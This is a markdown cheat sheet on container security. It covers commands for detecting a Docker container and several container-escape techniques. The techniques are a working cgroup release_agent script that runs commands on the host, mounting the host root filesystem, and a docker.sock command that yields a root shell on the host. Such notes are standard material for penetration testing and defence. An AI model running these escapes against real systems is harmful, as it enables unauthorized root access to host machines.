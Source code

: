 ### What can we do inside the container
1. Confirming you're in a container.
[*] Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

[*] Tools for checking: Run [amicontained](https://github.com/genuinetools/amicontained)

2.  Breaking out

[*] High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

[*] Tooling

See bellow -> Container & Kubernetes Security Tools (DevSecOps Tools)

[*] Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o


save it as `escape.sh` and you can use it like

bash
./escape.sh ps -ef


Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

3. Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

4.  Other Avenues of attack

Avenues of attack that aren't directly related to breaking out of the container

5. keyctl-unmask

As described in [this post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) it may be possible to get keys from the kernel keyring on a Docker host, and use those for breakouts or other access to the host or related machines.